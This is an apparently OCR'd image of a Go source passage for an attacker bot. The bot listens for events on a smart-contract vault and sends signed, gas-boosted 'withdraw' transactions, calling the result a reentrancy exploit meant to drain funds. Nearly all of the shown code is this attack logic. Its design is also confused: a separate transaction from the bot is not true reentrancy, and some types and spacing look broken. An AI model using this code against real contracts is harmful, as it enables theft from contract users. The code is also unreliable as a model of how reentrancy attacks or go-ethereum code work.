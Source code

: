 ```Go
				// *** ATTACKER LOGIC: Trigger reentrancy ***
				// This example triggers the 'withdraw' function again using the same amount
				// A real attack might use an attacker contract or different parameters.
				// For simplicity, assume the bot itself has funds in the vault and triggers its own withdrawal again.
				// Use the amount from the event or a predefined amount for the reentrant call.
				reentrantAmount := big.NewInt(1000000000000000000) // Example: 1 Ether, adjust as needed

				fmt.Println(">>> Initiating reentrant call to withdraw function <<<")
				go triggerReentrancyTransaction(client, contractAddress, contractAbi, privateKey, botAddress, chainID, reentrantAmount)
			}
		case <-subCtx.Done():
			fmt.Println("Subscription context done.")
			return
		}
	}
}

// Function to craft and send the exploiting transaction
func triggerReentrancyTransaction(client *ethclient.Client, contractAddress common.Address, contractAbi abi.ABI, pk *crypto.PrivateKey, fromAddress common.Address, chainID *big.Int, amount *big.Int) {
	ctx, cancel := context.WithTimeout(context.Background(), 30*time.Second)
	defer cancel()

	nonce, err := client.PendingNonceAt(ctx, fromAddress)
	if err!= nil {
		log.Printf("Failed to get nonce: %v", err)
		return
	}

	gasPrice, err := client.SuggestGasPrice(ctx)
	if err!= nil {
		log.Printf("Failed to suggest gas price: %v", err)
		return
	}
	// Increase gas price slightly to prioritize the transaction
	gasPrice.Mul(gasPrice, big.NewInt(12)).Div(gasPrice, big.NewInt(10)) // +20%

	// Pack the call to the 'withdraw' function
	callData, err := contractAbi.Pack("withdraw", amount)
	if err!= nil {
		log.Printf("Failed to pack call data: %v", err)
		return
	}

	gasLimit := uint64(300000) // Set a reasonable gas limit, estimate if needed

	tx := types.NewTransaction(nonce, contractAddress, big.NewInt(0), gasLimit, gasPrice, callData)

	signedTx, err := types.SignTx(tx, types.NewEIP155Signer(chainID), pk)
	if err!= nil {
		log.Printf("Failed to sign transaction: %v", err)
		return
	}

	err = client.SendTransaction(ctx, signedTx)
	if err!= nil {
		log.Printf("Failed to send reentrancy transaction: %v", err)
		return
	}
```